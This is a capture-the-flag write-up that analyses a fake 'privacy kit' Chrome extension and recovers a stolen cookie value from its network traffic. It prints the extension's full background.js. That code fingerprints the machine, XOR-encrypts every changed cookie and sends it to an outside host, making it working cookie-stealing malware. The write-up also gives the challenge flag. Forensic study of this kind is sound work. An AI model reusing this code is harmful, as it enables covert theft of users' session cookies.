

# Chrome-Plated Nonsense - 2
> The second extension the employee installed is named ChickenChickenStop Privacy Kit (see attached crx file). It claims to delete unnecessary cookies and improve user privacy, but it came from the same source as the first extension, and based on the traffic it is generating, it also appears to be exfiltrating information.

> Your task is to examine the network traffic from this extension, which has been ingested into Malcolm, and determine what information it was used to extract.

> Within the extracted data, what is the value of the lt variable in the cookie named MSPRequ?

> Flag format: value of the lt variable. Example: if cookie contained a=0&lt=12345&b=0, the flag would be 12345

## About the Challenge
We have been given a `crx` file (You can download the extension [here](chickenchickenstop-privacy-kit.crx)) and we need to find the value of the `lt` variable in the cookie

## How to Solve?
We need to unzip the chrome extension first and as you can see there is a file called `background.js`


If we open the `background.js` file, there are some information that we can obtain from that code

```javascript
var destination = "http://192.88.99.24:8080/"


// serializeCookie converts a cookie to string form
function serializeCookie(cookie) {
    output = "[" + cookie.domain + "," + cookie.expirationDate + "," + cookie.hostOnly + ",";
    output += cookie.httpOnly + "," + cookie.name + "," + cookie.path + ",";
    output += cookie.sameSite + "," + cookie.secure + "," + cookie.session + ",";
    output += cookie.storeId + "," + cookie.value + "]";

    return output
}


// sendCookie serializes, encrypts, and sends a cookie
function sendCookie(cookie) {
    var serializedCookie = "";
    var key = [];
    var encryptedCookie = [];
    var output = "";
    var opts = {
        'method':'GET',
        'mode':'no-cors'
    };

    // Serialize the cookie
    serializedCookie += serializeCookie(cookie);

    // Get key
    chrome.storage.local.get(["id"]).then((result) => {
        var keyString = result.id.slice(0, 4) + result.id.slice(-4,);
        key = keyString.split('');

        for (var i = 0; i < serializedCookie.length; i++) {
            var charCode = serializedCookie.charCodeAt(i) ^ key[i % key.length].charCodeAt(0);
            encryptedCookie.push(String.fromCharCode(charCode));
        }
        output = btoa(encryptedCookie.join(""));
        fetch(destination.concat(output), opts);
    });
}


// This will execute whenever a cookie is set or removed
chrome.cookies.onChanged.addListener((changeInfo) => {
    if (changeInfo.cause == "explicit") {
        sendCookie(changeInfo.cookie);
    }
});


// This will execute when the extension is first installed
chrome.runtime.onInstalled.addListener(() => {
    var opts = {
        'method':'GET',
        'mode':'no-cors'
    };

    chrome.system.cpu.getInfo((cpuInfo) => {
        chrome.system.memory.getInfo((memoryInfo) => {
            var info = "timestamp=" + Date.now()
            info += ",archName=" + cpuInfo.archName;
            info += ",modelName=" + cpuInfo.modelName;
            info += ",numOfProcessors=" + cpuInfo.numOfProcessors;
            info += ",availableCapacity=" + memoryInfo.availableCapacity
            info += ",capacity=" + memoryInfo.capacity;

            // Hash code adapted from https://developer.mozilla.org/en-US/docs/Web/API/SubtleCrypto/digest#converting_a_digest_to_a_hex_string
            const encoder = new TextEncoder();
            const data = encoder.encode(info);
            crypto.subtle.digest('SHA-256', data).then((digestBuffer) => {
                const hashArray = Array.from(new Uint8Array(digestBuffer));
                const uniqueId = hashArray.map((b) => b.toString(16).padStart(2, '0')).join('');
                fetch(destination.concat(btoa("id=" + uniqueId + "," + info)), opts);

                // Save ID in local storage
                chrome.storage.local.set({ id: uniqueId }).then(() => {
                    // do nothing
                });
            });
        });
    });
});
```

First, the extension will send information about the computer to `http://192.88.99.24:8080/`. Then the extension will send information about the website's cookie to `http://192.88.99.24:8080/`, but the code will XOR the cookie first with the first 4 digits and last 4 digits from the ID.

Open Malcolm dashboards and find information about `192.88.99.24:8080`


If we decode the base64 encoded message, we will get this information

```
id=51ffbc1a9efa76f8a5a005d227a0f36606b524bcb627658520d0e0678da30e85,timestamp=1674580864784,archName=x86_64,modelName=virt-7.2,numOfProcessors=8,availableCapacity=13681516544,capacity=17171611648
```

Now we know the information about the id. To obtain the XOR key, we need to get the first 4-digit and last 4-digit of the id cookie. So the key is `51ff0e85`

The next step is finding the correct request by checking the logs one by one. And to do that, we need decode the message and XOR with `51ff0e85`


After checking the logs one by one, I finally obtained the flag by checking this base64 message.

```
bh8KCVcMVhtZWBADHgZXWBlECAJVA1FbUFVKAFEJS1AZRRQTVUl1ZmVjAxdFSRcZW145FFUWTEdcUhIPXwsUQUdEA0pEF01QGQFKD1RYdhNZRVtXBlIMAAIGVVYDQ1taCAA7
```



```
1674577303
```